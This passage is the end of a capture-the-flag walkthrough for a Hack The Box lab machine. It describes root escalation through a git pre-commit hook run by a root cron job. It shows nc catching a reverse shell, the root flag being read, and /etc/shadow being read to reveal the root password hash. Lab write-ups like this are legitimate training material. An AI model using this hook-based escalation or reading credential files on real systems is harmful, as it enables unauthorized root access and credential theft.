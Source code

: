 Now when the cron job running as root executes the **git commit** our pre-commit file is also executed as root. Switch to a waiting nc listener and within a minute we have our root shell connected:

```text
┌──(root㉿kali)-[~/htb/opensource]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.184] from (UNKNOWN) [10.10.11.164] 49284
root@opensource:/home/dev01#
```

We've made it to root, let's grab the flag and we've completed another box:

```text
root@opensource:/home/dev01# cat root.txt
afaeaf858c16b8ae9f6979629702652e

root@opensource:~# cat /etc/shadow | grep root
root:$6$5sA85UVX$HupltM.bMqXkLc269pHDk1lryc4y5LV0FPMtT3x.yUdbe3mGziC8aUXWRQ2K3jX8mq5zItFAkAfDgPzH8EQ1C/:19072:0:99999:7:::
```

All done. I hope this walkthrough helped you learn a thing or two. See you next time.
